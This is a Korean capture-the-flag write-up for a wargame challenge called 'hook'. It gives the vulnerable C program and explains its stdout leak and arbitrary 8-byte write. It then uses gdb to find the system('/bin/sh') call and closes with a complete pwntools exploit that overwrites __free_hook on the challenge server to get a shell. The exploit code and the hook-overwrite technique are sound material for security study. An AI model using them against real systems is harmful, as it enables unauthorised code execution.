```c
// Name: hook.c
// gcc -o init_fini_array init_fini_array.c -Wl,-z,norelro
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

int main(int argc, char *argv[]) {
    long *ptr;
    size_t size;

    initialize();

    printf("stdout: %p\n", stdout);

    printf("Size: ");
    scanf("%ld", &size);

    ptr = malloc(size);

    printf("Data: ");
    read(0, ptr, size);

    *(long *)*ptr = *(ptr+1);

    free(ptr);
    free(ptr);

    system("/bin/sh");
    return 0;
}
```

```bash
$ checksec ./hook
[*] './hook'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

# 분석

## 보호 기법

NX, stack canary가 적용되어 있으며, PIE는 적용되어있지 않고, full RELRO가 적용되어 있다.

## 코드 분석

* `hook.c:25` : `stdout`의 주소를 얻을 수 있다.
* `hook.c:27-35` : 임의 주소에 원하는 8바이트 값을 쓸 수 있다.
* `hook.c:40` : 쉘을 탈취할 수 있다.

# 공격

`hook.c:27-35`에서 임의 주소에 원하는 8바이트 값을 쓸 수 있으므로, 함수 `__free_hook`의 주소에 `hook.c:40`의 주소를 써서 `free(ptr)`가 호출되면 그 즉시 쉘을 탈취할 수 있도록 할 수 있을 것이다.

이를 위해서는 `__free_hook`의 메모리 상에서의 주소를 알아낼 필요가 있으며, 이를 위해 `hook.c:25`에서 얻어낸 `stdout`의 메모리 상에서의 주소를 활용하여 libc 파일의 베이스를 알아내는 과정이 선행되어야 한다.

```bash
$ gdb ./hook
pwndbg> disassemble main
Dump of assembler code for function main:
   0x000000000040094a <+0>:     push   rbp
...
   0x0000000000400a11 <+199>:   mov    edi,0x400aeb
   0x0000000000400a16 <+204>:   call   0x400788 <system@plt>
...
   0x0000000000400a35 <+235>:   ret
End of assembler dump.
```

또한, gdb를 통해 `hook.c:40`의 주소를 얻어내면 `hook.c:40`의 주소가 `0x400a11`임을 알 수 있다.

이를 종합하여 익스플로잇 코드를 구성하면 다음과 같다.

```python
# Name: hook.py

from pwn import *

HOST = 'host3.dreamhack.games'
PORT = 14669 # the given port

# conn = process('./hook') # local
conn = remote(HOST, PORT)

e = ELF('./hook')
libc = ELF('./libc-2.23.so')

# leak libc base
conn.recvuntil(b'stdout: ')
stdout = int(conn.recvline()[:-1], base=16)
libc_base = stdout - libc.sym['_IO_2_1_stdout_']
success(f'libc base: {hex(libc_base)}')

# exploit
conn.sendlineafter(b'Size: ', str(0x10).encode())
payload = p64(libc_base + libc.sym['__free_hook'])
payload += p64(0x400a11)
conn.sendafter(b'Data: ', payload)
conn.interactive()
```